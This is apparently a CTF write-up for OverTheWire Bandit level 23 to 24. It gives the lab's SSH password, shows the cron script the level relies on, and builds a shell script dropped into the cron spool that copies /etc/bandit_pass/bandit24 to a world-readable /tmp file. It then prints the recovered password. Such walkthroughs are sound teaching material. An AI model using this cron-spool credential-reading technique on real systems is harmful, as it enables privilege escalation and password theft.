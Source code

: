 # Level 23 → Level 24

## Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler.  
Look in `/etc/cron.d/` for the configuration and see what command is being executed.  
  
NOTE: This level requires you to create your own first shell-script.  
This is a very big step and you should be proud of yourself when you beat this level!  
  
NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level
`cron`, `crontab`, `crontab(5)` _(use “man 5 crontab” to access this)_

## Solution

Connect to the challenge through SSH:

```sh
~$ ssh bandit23@bandit.labs.overthewire.org -p 2220 # password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```

List scheduled tasks, for user `bandit24`:

```sh
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Print the content of scheduled script `/usr/bin/cronjob_bandit24.sh`:

```sh
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Considering the script is executed every minutes, we can create our own script, that will be executed from `/var/spool/bandit24/foo`:

```sh
bandit23@bandit:~$ cat << EOF > /var/spool/bandit24/foo/script.sh
#!/bin/bash
myname=\$(whoami)
mytarget=\$(echo \$myname | md5sum | cut -d ' ' -f 1)
cat /etc/bandit_pass/\$myname > /tmp/\$mytarget
chmod 644 /tmp/\$mytarget
EOF

bandit23@bandit:~$ chmod 755 /var/spool/bandit24/foo/script.sh
```

Wait a minute for the script to execute by crontab and access the result:

```sh
bandit23@bandit:~$ myname=bandit24
bandit23@bandit:~$ mytarget=$(echo $myname | md5sum | cut -d ' ' -f 1)
bandit23@bandit:~$ cat /tmp/$mytarget
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

## Resources

Challenge: https://overthewire.org/wargames/bandit/bandit24.html